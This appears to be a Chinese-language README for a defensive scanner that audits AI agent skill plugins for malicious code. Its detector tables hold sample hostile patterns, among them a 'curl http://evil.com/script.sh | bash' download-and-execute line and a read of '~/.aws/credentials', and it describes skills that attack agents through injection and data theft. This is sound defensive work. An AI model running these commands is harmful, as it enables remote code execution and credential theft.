




# Skill Security Scanner 产品介绍

## 一、产品概述

Skill Security Scanner 是一款面向 AI Agent 智能插件（Skills）的专用安全扫描工具，专注于深度检测技能代码中的安全漏洞、恶意行为与风险模式，为 AI 智能体插件全生命周期提供安全审计与风险管控能力。

**核心定位：企业级、可独立部署的 Skills 代码安全扫描工具**

---

## 二、行业背景与产品意义

### 行业背景

随着 AI Agent（智能体）技术的快速发展，Skills（技能插件）作为 AI Agent 扩展能力的核心单元，正在被广泛使用。然而，Skills 在带来强大功能的同时，也引入了严重的安全风险。攻击者可以将恶意逻辑伪装成正常 Skills，通过供应链传播、提示注入、数据窃取、远程代码执行等方式攻击终端用户。

安全研究人员已发现大量恶意 Skills 实例：根据公开研究，截止2026年3月20日，LobeHub 平台存在 **不少于38 个**已标注的恶意 Skills（HuggingFace 16个 + AISA Group 22个），OpenClaw 生态中已收录 **352 条**恶意/可疑 Skills 记录，Agent Skills 市场中已收录 **347 条**恶意/可疑 Skills 记录。这些恶意 Skills 涵盖云端训练投毒、Web 测试注入、文档处理远程执行、系统信息外传、数据窃取、支付漏洞等多种攻击向量。

详见 [lobehub-malicious-skills.md](docs/04-threat-intel/lobehub-malicious-skills.md) 、[openclaw-malicious-skills-/](docs/04-threat-intel/openclaw-malicious-skills-/openclaw-risky-skills.md)和[agent-skill-malware.md](docs/04-threat-intel/agent-skill-malware/agent-skill-malware.md)，了解更多风险类型：供应链风险、提示注入风险、数据窃取风险、远程执行风险。

---

### 行业痛点

在 AI Agent 爆发初期，Skills 安全处于"裸奔"状态。虽然目前已有部分安全工具开始关注 Skills 安全问题，但存在以下痛点：
1. **评估体系缺失**：Skills 代码缺陷问题本质上偏向传统安全，但目前尚没有一款工具支持 CVSS 评分，导致 Skills 风险的评估缺乏科学性
2. **工具化局限**：目前市面上的 Skills 扫描工具多处于"小工具"阶段，不具备提供系统性能力支持的能力


### 痛点解决方案

针对上述行业痛点，Skill Security Scanner 采用**多种扫描器（静态规则）+ LLM 语义分析 + CVSS 评分**的技术路线，破解 Skills 安全审计难题，核心特性如下：

- **零依赖**：无外部第三方依赖，支持离线独立部署
- **服务化**：支持 REST API，可融入企业安全体系
- **可私有化**：支持完全本地部署，数据不出网
- **可商业化**：提供完整的产品能力，支持企业级需求

---


## 产品核心功能

### 🔍 安全扫描（18 种风险检测能力）

| 特性 | 说明 |
|------|------|
| 多维度检测 | 支持 18 种已知风险类型的专业安全检测 |
| 零依赖运行 | 无外部第三方依赖，支持离线独立部署 |
| 高精度检测 | 支持 IOC 威胁情报匹配、灵活规则配置 |
| CVSS 3.1 评分 | 标准化的风险量化评估体系 |

### 🤖 LLM 深度语义分析（18+N 扩展检测能力）

| 特性 | 说明 |
|------|------|
| 多模型支持 | OpenAI、Anthropic Claude、Ollama 等 |
| 语义级威胁识别 | 通过代码意图深度理解，发现隐蔽威胁 |
| 本地部署 | 支持 Ollama 本地模型，数据安全可控 |
| 推荐模型 | 推荐北京模湖智能科技优先公司自有红队大模型，若无，优先选择 OpenAI 等模型 |

### 🌐 多种使用方式

| 方式 | 说明 |
|------|------|
| 命令行工具 | 快速上手，灵活集成 |
| Web 界面 | 交互式扫描，可视化报告 |
| REST API | 标准化接口，集成企业安全平台 |

### ⚙️ 灵活配置

| 配置方式 | 说明 |
|----------|------|
| 命令行参数 | 丰富的扫描选项 |
| 环境变量 | API 密钥等敏感信息 |
| 多格式输出 | Text、JSON、HTML、SARIF、Markdown |

---

## 产品优势

### 竞品对比

| 特性 | Skill Security Scanner | openclaw-skill-vetter |
|------|------------------------|-----------------------|
| **平台依赖** | 无依赖，可独立部署 | 强绑定 OpenClaw |
| **检测器数量** | 18+ 完整检测器 | 规则简单，数量有限 |
| **风险评级** | CVSS 3.1 专业评分 | 缺乏体系化评级 |
| **产品形态** | 企业级服务化工具 | 小工具 |
| **部署方式** | REST API / 离线 / 私有化 | 依赖特定平台 |
| **报告能力** | 多格式完整报告 | 基础报告 |

### 四大优势

1. **通用性**：不限制 Agent 平台或框架，任何 Skills 都可以扫描
2. **专业性**：18+N 检测能力 + CVSS 3.1 评分，科学量化风险
3. **工程化**：REST API + 离线部署 + 多格式输出，具备企业级产品能力
4. **灵活性**：支持私有化部署，数据不出网，安全可控

---

## 检测能力

### 检测器列表

| 检测器 | 功能 | 风险等级 |
|---------------------------|----------------------------------|----------|
| SecretsDetector | 检测代码中硬编码密钥、Token、账号密码等敏感凭证 | CRITICAL |
| DownloadExecDetector | 检测从远程地址下载文件并直接执行的恶意行为 | CRITICAL |
| InjectionDetector | 检测代码注入、命令注入、动态执行等高危漏洞 | CRITICAL |
| IOCDetector | 匹配已知恶意域名、IP、哈希等威胁情报 IOC | CRITICAL |
| CredentialTheftDetector | 检测窃取系统密钥、配置文件、环境变量等敏感凭证行为 | HIGH |
| PersistenceDetector | 检测写入自启动、计划任务、系统服务等持久化后门行为 | HIGH |
| ObfuscationDetector | 检测代码混淆、字符串加密、动态构造等意图隐匿行为 | HIGH |
| ExfiltrationDetector | 检测敏感数据收集、打包外传、数据泄露行为 | HIGH |
| SupplyChainDetector | 检测恶意依赖、不安全源、篡改组件等供应链风险 | HIGH |
| PrivilegeEscalationDetector | 检测越权操作、提权行为、绕过权限控制等风险 | HIGH |
| SocialEngineeringDetector | 检测诱导性话术、仿冒身份、钓鱼等社会工程学行为 | HIGH |
| Base64Detector | 检测用于隐藏恶意逻辑的 Base64 编码载荷 | MEDIUM |
| NetworkDetector | 检测异常外联、可疑域名连接、非业务必要网络行为 | MEDIUM |
| EntropyDetector | 检测高熵值可疑字符串，识别潜在加密或隐藏载荷 | MEDIUM |
| HiddenCharDetector | 检测零宽字符、不可见符号等隐蔽代码注入行为 | LOW |
| YARA Rules | 自定义 YARA 规则特征码匹配 | 可配置 |
| LLM Analyzer | LLM 深度语义分析，发现隐蔽威胁 | 可配置 |

### 检测能力详解

#### 🔴 CRITICAL 级别

| 检测器 | 检测内容 | 示例 |
|---------------------------|-------------|---------------------------------------------------|
| **SecretsDetector** | 诱导Agent硬编码密码、API密钥、Access Token等敏感凭证 | `password = "admin123"`、`api_key = "sk-xxx..."` |
| **DownloadExecDetector** | 诱导Agent从远程URL下载文件并执行的危险行为 | `curl http://evil.com/script.sh \| bash` |
| **InjectionDetector** | 诱导Agent执行命令注入、代码注入、SQL注入等高危漏洞 | `eval(user_input)`、`os.system(cmd)` |
| **IOCDetector** | 匹配已知恶意IP地址、域名、文件哈希等威胁情报 | 访问恶意域名、使用恶意文件哈希 |

#### 🟠 HIGH 级别

| 检测器 | 检测内容 | 示例 |
|-------------------------------|----------|---------------------------------------------------|
| **CredentialTheftDetector** | 诱导Agent读取敏感凭证文件或提取浏览器存储凭证的行为 | 读取 `~/.aws/credentials` |
| **PersistenceDetector** | 诱导Agent创建自启动项、计划任务、系统服务等持久化机制 | 写入开机启动项、定时任务 |
| **ObfuscationDetector** | 诱导Agent使用字符串加密、动态代码构造等代码混淆技术 | 字符串拼接 `"\x65\x76\x61\x6c"` |
| **ExfiltrationDetector** | 诱导Agent向外部服务器上传敏感数据的网络传输行为 | 上传文件到外部服务器 |
| **SupplyChainDetector** | 诱导Agent引入不安全第三方依赖或未知来源组件的供应链风险 | 不安全 pip 源、未知 PyPI 包 |
| **PrivilegeEscalationDetector** | 诱导Agent尝试获取更高系统权限或绕过权限控制的行为 | 修改系统权限配置 |
| **SocialEngineeringDetector** | 诱导Agent通过欺骗手段执行危险操作的社会工程学攻击 | 伪装客服索要密码 |

#### 🟡 MEDIUM 级别

| 检测器 | 检测内容 | 示例 |
|----------------------|----------|-------------------------------------|
| **Base64Detector** | 诱导Agent使用Base64编码载荷隐藏恶意逻辑 | 大量可疑Base64字符串 |
| **NetworkDetector** | 诱导Agent建立异常网络连接或访问可疑域名 | 连接非标准端口、频繁网络请求 |
| **EntropyDetector** | 诱导Agent使用高熵值字符串隐藏加密内容或payload | 加密密钥、隐藏payload |

#### 🟢 LOW 级别

| 检测器 | 检测内容 | 示例 |
|--------------------------|------|-----------------------------------|
| **HiddenCharDetector** | 诱导Agent使用零宽字符、RTL控制符等隐蔽代码注入技术 | 零宽字符、RTL隐藏字符 |

---

## 扫描范围

- **文件类型**：Markdown (SKILL.md)、Python、JavaScript、Shell、YAML、JSON 等
- **代码模式**：恶意命令、危险函数、敏感操作等
- **威胁情报**：已知恶意域名、IP、哈希等
- **语义分析**：通过 LLM 理解代码意图，发现隐蔽威胁

---

## 使用场景

### 1. 开发阶段安全检测

```bash
python -m skill_scanner --path /path/to/skill --severity high
```

### 2. CI/CD 集成

```bash
python -m skill_scanner --path ./skill --format sarif --severity high -o results.sarif
```

### 3. LLM 深度分析

```bash
python -m skill_scanner --path /path/to/skill --use-llm --llm-provider openai
```

### 4. 批量扫描

```bash
for dir in /skills/*/; do
  python -m skill_scanner --path "$dir" --format json -o "reports/$(basename $dir).json"
done
```

### 5. Web 界面交互扫描

```bash
python -m skill_scanner.web_ui --port 9000
```

访问 http://localhost:9000

---

## 技术规格

| 项目 | 规格 |
|------|------|
| 编程语言 | Python 3.9+ |
| 依赖数量 | 零外部依赖（可选依赖用于扩展功能） |
| 输出格式 | Text, JSON, HTML, SARIF, Markdown |
| 并发支持 | 多技能并行扫描 |
| 超时控制 | 可配置扫描超时 |
| API 接口 | RESTful API |
| Web 界面 | Flask Web UI |

---

## 性能特点

| 特性 | 说明 |
|------|------|
| 快速启动 | 无需初始化大型模型 |
| 低资源占用 | 轻量级扫描引擎 |
| 并行处理 | 多技能并行扫描 |
| 增量扫描 | 支持结果缓存 |
| 进度反馈 | 实时显示扫描进度 |

---

## 快速开始

### 安装

```bash
pip install -r requirements.txt
pip install -e .
```

### 基本使用

```bash
# 基本扫描
python -m skill_scanner --path /path/to/skill

# HTML 报告
python -m skill_scanner --path /path/to/skill --format html -o report.html

# 过滤严重级别
python -m skill_scanner --path /path/to/skill --severity high

# 启用 LLM 分析
python -m skill_scanner --path /path/to/skill --use-llm

# 启用所有检测器
python -m skill_scanner --path /path/to/skill --use-ioc --use-yara --use-llm
```

### Web 界面

```bash
python -m skill_scanner.web_ui --port 9000
```

### REST API

```bash
python -m skill_scanner.api_server --port 8080

curl -X POST http://localhost:8080/scan \
  -H "Content-Type: application/json" \
  -d '{"path": "/path/to/skill", "format": "json"}'
```

---

### 效果展示
### 🌐 例1：工具扫描效果



### 🌐 例2：Web界面展示
1. 命令行，启用web界面



2. 访问Web界面，配置扫描参数，开始扫描



3. 查看扫描结果报告



- 更多扫描结果，进入目录skill_scanner/reports/查看


## 许可模式

- **开源版本**：基础功能免费使用
- **商业版本**：提供专业功能，如批量扫描、专业LLM深度分析、244小时支持等
- **本地部署**：支持完全离线部署

---

## 获取支持

- 技术文档：参考本项目文档目录
- 部署指南：参考 DEPLOY.md
- 使用手册：参考 MANUAL.md
- CVSS 评分：参考 CVSS.md
- 命令行帮助：`python -m skill_scanner --help`
- Web 界面：访问 http://localhost:9000


## 联系我们

- 官网：https://www.aimohu.com

